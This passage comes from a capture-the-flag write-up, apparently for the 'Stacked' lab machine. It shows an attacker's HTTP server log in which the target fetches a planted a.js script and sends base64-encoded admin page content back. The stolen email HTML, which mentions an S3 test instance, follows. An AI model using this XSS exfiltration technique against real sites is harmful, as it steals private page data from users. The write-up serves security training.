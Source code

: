 [![mail_email](/img/stacked/mail_email.png)](/img/stacked/mail_email.png)

We get a hit about one minuter later again and the source follows a few seconds later aswell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.223.207 - - [19/Sep/2021 10:08:04] "GET /a.js HTTP/1.1" 200 -
10.129.223.207 - - [19/Sep/2021 10:08:40] "GET /?a=PCFET0NUW...[snip]...0bWw+Cg== HTTP/1.1" 200 -
10.129.223.207 - - [19/Sep/2021 10:14:04] "GET /a.js HTTP/1.1" 200 -
10.129.223.207 - - [19/Sep/2021 10:14:40] "GET /?a=PCFET0NUW...[snip]...odG1sPgo= HTTP/1.1" 200 -
```

The email states that there is an S3 instance set up at `s3-testing.stacked.htb` and we can use a serverless instance using node to work from.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>AdminLTE 3 | Read Mail</title>

  <!-- Google Font: Source Sans Pro -->
  <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Source+Sans+Pro:300,400,400i,700&display=fallback">
  <!-- Font Awesome -->
  <link rel="stylesheet" href="plugins/fontawesome-free/css/all.min.css">
  <!-- Theme style -->
  <link rel="stylesheet" href="dist/css/adminlte.min.css">
</head>
<body class="hold-transition sidebar-mini">

...[snip]...

              <!-- /.mailbox-controls -->
              <div class="mailbox-read-message">
                <p>Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.</p>
              </div>
              <!-- /.mailbox-read-message -->
```